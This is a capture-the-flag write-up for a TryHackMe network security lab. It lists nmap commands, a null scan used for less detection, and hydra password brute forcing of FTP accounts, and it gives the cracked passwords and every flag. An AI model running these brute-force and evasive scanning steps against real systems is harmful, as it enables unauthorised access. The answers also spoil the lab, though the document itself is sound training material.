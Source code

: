 # Net-Sec-Challenge-Writeup
An updated writeup for the net sec challenge lab do try hack me, good studies

# All Questions

![image](https://github.com/user-attachments/assets/3c366a6e-9c18-4c07-899c-346b1d6d24db)

# WriteUp

Use nmap -p- -v -A machine_ip to see all the details needed for the questions 1-6

1. What is the highest port number being open less than 10,000?

R = 8080

![image](https://github.com/user-attachments/assets/b0b1307f-3198-442e-916c-ce39a8ba20f0)

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

R=10021

![image](https://github.com/user-attachments/assets/266226b8-a2e5-44d3-8fce-5e9de0d4910f)

3. How many TCP ports are open?

R= 6, just count the ports.

4. What is the flag hidden in the HTTP server header?

R= THM{web_server_25352}

![image](https://github.com/user-attachments/assets/bb62dcb2-0498-47be-b111-a06df5f7f1d7)

5. What is the flag hidden in the SSH server header?

R= THM{946219583339}

![image](https://github.com/user-attachments/assets/4d1a15d4-59e1-4ce7-ba61-3a34bde95865)

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

R= vsftpd 3.0.5

![image](https://github.com/user-attachments/assets/edbb00d1-43ea-4037-8655-a6a81c01709d)

7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: jordan
hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: andrea

![image](https://github.com/user-attachments/assets/902f0a67-e3e4-44cb-bc21-c5563311a160)

$ ftp machine_ip 10021 
user: quinn
password: andrea

connect via ftp

![image](https://github.com/user-attachments/assets/bbd53333-8c6b-41a5-a4e9-5a46678d918f)

ftp> ls
ftp> get ftp_flag.txt
With this we get the flag

![image](https://github.com/user-attachments/assets/9a044d0a-620e-41aa-be51-d255f9a6cccf)

ftp> quit
$ cat ftp_flag.txt

![image](https://github.com/user-attachments/assets/939ea7e5-a1e0-4396-9c68-910e76d13706)

R= THM{321452667098}

8. Browsing to `http://10.10.209.57:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![image](https://github.com/user-attachments/assets/e05a9daf-e239-4c15-88fb-0f5926a0aa31)

USE sudo nmap -sN 10.10.209.57

![image](https://github.com/user-attachments/assets/a8e11ffe-0588-437b-8acf-93fd67302ad5)

use null scan for less detection

![image](https://github.com/user-attachments/assets/5ad99a9c-9aaf-4163-b15a-075672777b7f)

R= THM{f7443f99}

Good Learning!
